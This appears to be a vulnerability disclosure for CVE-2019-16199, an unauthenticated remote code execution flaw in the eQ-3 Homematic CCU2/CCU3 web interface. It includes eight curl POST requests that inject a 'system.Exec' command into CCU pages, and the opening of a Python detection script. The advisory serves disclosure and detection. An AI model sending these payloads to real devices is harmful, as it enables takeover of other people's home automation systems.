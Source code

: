 
Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, an Improper Access Control resulting into Remote Code Execution vulnerability has been identified. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following simple HTTP POST requests (fixed since Firmware 2.47.18 / 3.47.18) illustrates the attack by waiting for 4 seconds:

```
curl -X POST -i 'http://1.2.3.4' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/esp/system.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/esp/exec.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/esp/devices.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/esp/channels.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/help.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/NoAjaxBrowser.htm' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/logout.htm' --data 'var x=system.Exec("sleep 4;");'
```


The following python script checks which URLs are proofed to be vulnerable and detects the remote code execution condition.<br>
checkRcePostURLs.py:
~~~python
#! /usr/bin/python3

# Exploit Title: Homematic CCU2 and CCU3 RemoteCodeExecution on HTTP POST request detector
# Date: 29.08.2019
# Update: -----
# Exploit Author: psytester
# Vendor Homepage: https://www.eq-3.de
# Software Link: https://www.eq-3.de/service/downloads.html
# CCU2 Version: <= 2.47.15
# CCU3 Version: <= 3.47.15
# The OCCU opensource variants are affected too!
# RaspberryMatic Version: <= RaspberryMatic-3.47.15.20190823
# CVE : CVE-2019-16199

# Description: https://psytester.github.io/CVE-2019-16199
# Several URLs are passed from lighttpd webserver to ReGa process and a sub content of them allow unprotected POST requests with our RCE payload
# This script checks all URLs in CCU served by lighttpd webserver


import http.client
import time
import os

host = '1.2.3.4'
port = 80

# on target machine search all *.htm and *.cgi pages served by the system
~~~